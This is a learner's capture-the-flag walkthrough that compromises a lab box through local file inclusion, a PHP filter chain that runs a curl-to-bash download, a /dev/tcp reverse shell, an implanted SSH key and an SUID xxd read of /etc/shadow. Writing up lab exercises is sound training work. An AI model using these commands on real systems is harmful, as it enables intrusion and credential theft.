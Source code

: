 

- Step 1: Enumeration -> nmap scan and found all ports open, I am assuming it is some sort of portspoofing
- Step 2: Accessing target ip through browser --> found website --> server is running
- Step 3: Intercepted traffic with running proxy and burp. Tried manipulating data packages, on login.php page --> no result,
tried out if sql injections work with ' but not working.
- Step 4: Used gobuster to search for hidden dir, but my wordlists were very limited. Hat to research and found better wordlists.
- Step 5: After looking into many hidden dir's, I found "/messages.html" in which there was a link, which lead me to another hidden dir, in which it was possible to manipulate
the url and got data from the server --> LFI = Local File Inclusion.
- Step 6: Made "resources=/etc/passwd" so I can see potential passwords and more informations.
Gathered information --> user comte, we have file-read permissions on /etc/passwd
- Step 7: Since this is an php script and we just filtered out that it executes everything on the web server.
- Step 8: Looked up and installed php filter chain generator tool and generated some filter codes, which also allow me to run reverse shells apparently.
- Step 9: executed command: python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  ' to generate code.
- Step 10: copied php filter code into file= and intercepted the request within burp and also send it to 
repeater and got access to server and a lot of information, now I will need to create a reverse shell.
- Step 11: Looked up google for a php filter reverse shell script -->
found "python3 php_filter_chain_generator.py --chain '<?= `curl -s -L machine_ip/revshell|bash` ?>'"
to generate php filter for an reverse shell
- Step 12: Setting up a listener which receives the reverse connection & starting a web server
to host the shell script
-  Step 13: added bash script within "revshell" file --> bash -i >& /dev/tcp/machine_ip/4444 0>&1
- Step 14: Gained a rev shell and found userflag with in /home/comte, but didn't had permissions to read it.
- Step 15: made ls -la within users and found out that authorized_keys has read and writing permissions --> copied my ssh public key into the authorized_keys
- Step 16: Gained SSH access "ssh chomte@machine_ip". --> cat userflag.txt
- Step 17: sudo -l to see what I am able to run --> lists me options --> gained information about a system called
exploit.timer
- Step 18: within /etc/systemd/ made cat exploit.timer to see the context & made cat exploit.service, and checked out what it does.
- Step 19: It gives everyone who executes it rights to "xxd", tested out the commands which were displayed and
figured out that I Should give the timer a value for example of 3s. Once the timer is over, I am assuming the code
gets executed.
- Step 20: had to educate myself about variable xxd, --> it has the SUID bit set, so we can access the file 
using "./xxd "/etc/shadow" | xxd -r"
- Step 21: to access root flag we have to make the command: "./xxd "/root/root.txt" | xxd -r"


My LEarnings

- I learned so much in this CTF

